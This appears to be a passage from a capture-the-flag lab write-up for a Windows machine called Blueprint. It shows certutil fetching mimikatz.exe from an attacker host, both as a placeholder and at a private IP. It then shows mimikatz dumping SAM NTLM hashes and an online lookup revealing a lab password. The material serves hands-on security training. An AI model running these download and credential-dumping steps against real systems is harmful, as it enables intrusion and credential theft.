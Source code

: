 - now using the certutil command syntax

```
certutil.exe -urlcache -f http://YOUR_IP:8000/mimikatz.exe mimi.exe
```


for us it will be


```
certutil.exe -urlcache -f http://10.17.24.189:8000/mimikatz.exe mimi.exe
```



- we then run the file `C:\Windows\Temp>mimi.exe`
followed with `mimikatz # lsadump::sam`
```
mimikatz # lsadump::sam
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 549a1bcb88e35dc18c7a0b0168631411

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: 30e87bf999828446a1c1209ddde4c450
```


- able to crack the hash at https://hashes.com/en/decrypt/hash
`30e87bf999828446a1c1209ddde4c450:googleplus`








